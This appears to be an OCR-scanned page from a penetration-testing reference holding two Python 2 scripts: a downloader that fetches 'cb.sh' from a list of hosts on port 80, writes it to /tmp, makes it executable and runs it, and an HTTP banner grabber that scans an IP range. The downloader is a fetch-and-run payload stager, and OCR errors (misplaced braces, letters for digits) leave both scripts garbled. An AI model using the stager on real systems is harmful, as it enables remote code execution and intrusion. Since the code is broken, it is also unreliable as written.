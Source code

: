 ```text
#!/usr/bin/python
import urllib2, os

urls = [ "1 1.1.1.1","2.2.2.2"]
port = "80"
payload = "cb.sh"

for url in urls:
    u = "http://%s:%s/%s" % (url, port, payload)
    try:
        r = urllib2.urlopen(u)
        wfile = open{"/tmp/cb.sh", "wb")
        wfile.write(r.read())
        wfile. close ()
        break
    except: continue

if os.path.exists("/tmp/cb.sh"):
    os.system("chmod 700 /tmp/cb.sh")
    os. system ( "/tmp/cb. sh")
```

### Python http banner grabber \(\* takes an ip rane, port and packet delay\)

```text
#!/usr/bin/python
import urllib2, sys, time

from optparse import OptionParser

parser= OptionParser()
parser.add option{''-t'', dest=''iprange'',help=''target IP range, i.e.
192.168.1.1-25")
parser.add option(''-p'', dest=''port'',default=''80'',help=''port, default=BO'')
parser.add=option("-d", dest="delay",default=".5",help="delay (in seconds),
default=.5 seconds")

(opts, args) = parser.parse_args()

if opts.iprange is None:
    parser.error("you must supply an IP range")

ips = []
headers={}

octets= opts.iprange.split(' .')

start= octets[3] .split('-') [0]
stop = octets [ 3] . split ( '-' ) [ 1]

for i in range(int(start),int(stop)+1):
    ips.append('%s.%s.%s.%d' % (octets[O],octets[1] ,octets[2],i))
print '\nScanning IPs: %s\n' % (ips)

for ip in ips:
    try:
        response= urllib2.urlopen('http://%s:%s' % (ip,opts.port))
        headers[ip] = dict(response.info())
    except Exception as e:
        headers[ip] = "Error: " + str(e)
        
time.sleep(float(opts.delay))
```